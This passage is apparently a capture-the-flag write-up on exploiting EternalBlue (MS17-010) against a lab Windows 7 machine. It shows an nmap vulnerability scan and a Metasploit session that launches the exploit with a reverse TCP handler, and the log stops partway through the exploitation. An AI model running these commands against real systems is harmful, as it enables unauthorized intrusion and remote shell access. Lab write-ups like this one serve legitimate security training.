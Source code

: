 The machine is vulnerable to the Eternal Blue vulnerability (CVE-2017-0143)

~~~
$ nmap -p 445 --script smb-vuln-ms17-010 10.10.63.14
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-29 14:40 CEST
Nmap scan report for 10.10.63.14
Host is up (0.072s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
~~~

## #1.2 - Exploit the vulnerability to spawn a reverse shell!

Let's fire up msfconsole and exploit this vulnerability:

~~~
$ msfconsole -q
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.63.14
rhost => 10.10.63.14
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started reverse TCP handler on 10.9.0.54:4444 
[*] 10.10.63.14:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.63.14:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.63.14:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.63.14:445 - Connecting to target for exploitation.
[+] 10.10.63.14:445 - Connection established for exploitation.
[+] 10.10.63.14:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.63.14:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.63.14:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.63.14:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.63.14:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.63.14:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.63.14:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.63.14:445 - Sending all but last fragment of exploit packet
[*] 10.10.63.14:445 - Starting non-paged pool grooming
[+] 10.10.63.14:445 - Sending SMBv2 buffers
[+] 10.10.63.14:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.63.14:445 - Sending final SMBv2 buffers.
[*] 10.10.63.14:445 - Sending last fragment of exploit packet!
[*] 10.10.63.14:445 - Receiving response from exploit packet
[+] 10.10.63.14:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.63.14:445 - Sending egg to corrupted connection.
[*] 10.10.63.14:445 - Triggering free of corrupted buffer.
~~~